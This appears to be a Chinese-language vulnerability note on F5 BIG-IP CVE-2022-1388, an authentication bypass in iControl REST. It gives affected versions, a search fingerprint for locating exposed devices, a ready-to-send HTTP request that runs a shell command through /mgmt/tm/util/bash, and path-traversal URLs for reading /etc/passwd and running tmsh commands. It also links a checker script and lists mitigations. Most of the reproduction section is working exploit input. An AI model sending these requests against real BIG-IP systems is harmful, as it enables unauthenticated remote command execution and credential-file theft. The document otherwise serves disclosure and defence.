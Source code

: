 # F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

```
11.6.1-16.1.2
```

## 网络测绘

```
icon_hash="-335242539"
```

## 漏洞复现

登录页面

![](images/202205241448502.png)

发送请求包(Host设为localhost)

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

![](images/202205241449854.png)

文件读取：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
RCE 
```

RCE：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

检测脚本：https://github.com/jheeree/CVE-2022-1388-checker/blob/main/CVE-2022-1388.sh

使用方法：

```
./CVE-2022-1388.sh hosts.txt
```

## 漏洞修复

建议升级至最新版本或可参考官方修复建议 Recommended Actions：https://support.f5.com/csp/article/K23605346

在受影响的版本内可执行以下步骤以缓解攻击：

- 通过自身 IP 地址阻止 iControl REST 访问。
- 通过管理界面阻止 iControl REST 访问。
- 修改 BIG-IP httpd 配置。